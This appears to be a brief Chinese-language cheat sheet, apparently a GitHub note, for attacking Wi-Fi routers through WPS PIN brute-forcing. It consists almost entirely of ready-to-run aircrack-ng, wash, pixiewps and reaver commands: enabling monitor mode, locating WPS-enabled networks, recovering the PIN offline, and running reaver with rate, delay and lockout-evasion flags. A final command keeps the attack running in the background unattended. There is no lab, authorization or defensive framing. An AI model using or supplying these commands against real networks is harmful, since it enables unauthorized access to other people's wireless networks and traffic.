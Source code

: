##aircrack-ng reaver pin攻击

####激活无线网卡
     airmon-ng start wlan0 # 此时网卡名变为wlan0mon
     airmon-ng check kill # 如果报错
     wash -i mon1 -P
     airodump-ng wlan0mon -wps # 显示有开启wps wifi
####列出监听到的wifi
    wash -i wlan0mon -C
####获得wps pin
    pixiewps -e PKE -r PKR -s eHash1 -z eHash2 -a AuthKey -n enonce -m rnonce -f -v 3
####pin
    reaver -i wlan0mon -b 00:8e:f2:4e:3a:32 -vv
    reaver -i mon0  -b 00:01:02:03:04:05 -vv -S -N -L -d 60 -r 3:15 -T .5 -x 360
    # --pin=00000000 -p 从哪里开始pin
    reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f # 快速
####挂机
    nohup sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11 -o fbi &
